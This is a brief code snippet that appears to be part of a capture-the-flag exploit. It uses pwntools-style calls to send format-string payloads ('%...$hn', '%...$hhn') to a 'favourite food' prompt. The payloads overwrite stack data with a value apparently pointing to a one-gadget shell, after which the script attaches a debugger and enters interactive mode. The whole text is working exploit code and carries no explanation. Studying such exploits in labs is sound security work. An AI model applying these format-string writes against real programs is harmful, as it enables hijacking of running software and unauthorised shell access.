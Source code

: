 ```bash
sla('favourite food: ','%'+str(6)+'c%37$hhn')
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
gdb.attach(p)
itr()
```

